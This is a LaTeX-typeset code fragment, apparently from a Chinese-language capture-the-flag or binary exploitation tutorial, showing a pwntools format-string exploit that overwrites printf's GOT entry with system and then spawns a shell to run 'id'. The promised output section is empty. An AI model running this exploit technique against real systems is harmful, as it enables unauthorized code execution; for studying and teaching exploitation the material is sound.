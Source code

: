 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CharTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\FloatTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\SpecialCharTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{payload }\OperatorTok{=}\NormalTok{ fmtstr\_payload(}\DecValTok{8}\NormalTok{, \{printf\_got: p64(system)[:}\DecValTok{6}\NormalTok{]\},}
\NormalTok{                         write\_size}\OperatorTok{=}\StringTok{\textquotesingle{}byte\textquotesingle{}}\NormalTok{, numbwritten}\OperatorTok{=}\DecValTok{0}\NormalTok{, badbytes}\OperatorTok{=}\StringTok{b\textquotesingle{}}\CharTok{\textbackslash{}n}\StringTok{\textquotesingle{}}\NormalTok{)}
\NormalTok{io.sendline(payload)                                      }\CommentTok{\# 第 2 次迴圈：改 GOT}
\NormalTok{time.sleep(}\FloatTok{0.5}\NormalTok{)}
\NormalTok{after }\OperatorTok{=}\NormalTok{ u64(mem(printf\_got))}
\BuiltInTok{print}\NormalTok{(}\StringTok{\textquotesingle{}printf@GOT after  = }\SpecialCharTok{\%\#x}\StringTok{   (system     = }\SpecialCharTok{\%\#x}\StringTok{)  match=}\SpecialCharTok{\%s}\StringTok{\textquotesingle{}} \OperatorTok{\%}\NormalTok{ (after, system, after }\OperatorTok{==}\NormalTok{ system))}
\NormalTok{io.sendline(}\StringTok{b\textquotesingle{}/bin/sh\textquotesingle{}}\NormalTok{)}\OperatorTok{;}\NormalTok{ time.sleep(}\FloatTok{0.4}\NormalTok{)}\OperatorTok{;}\NormalTok{ io.recvrepeat(}\FloatTok{0.3}\NormalTok{)}
\NormalTok{io.sendline(}\StringTok{b\textquotesingle{}echo SHELL\_OK; id; echo DONE\textquotesingle{}}\NormalTok{)              }\CommentTok{\# 第 3 次迴圈：printf(buf) == system(buf)}
\BuiltInTok{print}\NormalTok{(io.recvuntil(}\StringTok{b\textquotesingle{}DONE\textquotesingle{}}\NormalTok{, timeout}\OperatorTok{=}\DecValTok{5}\NormalTok{))}
\NormalTok{io.close()}
\end{Highlighting}
\end{Shaded}

實測輸出：

\begin{Shaded}
\end{Shaded}
\end{document}
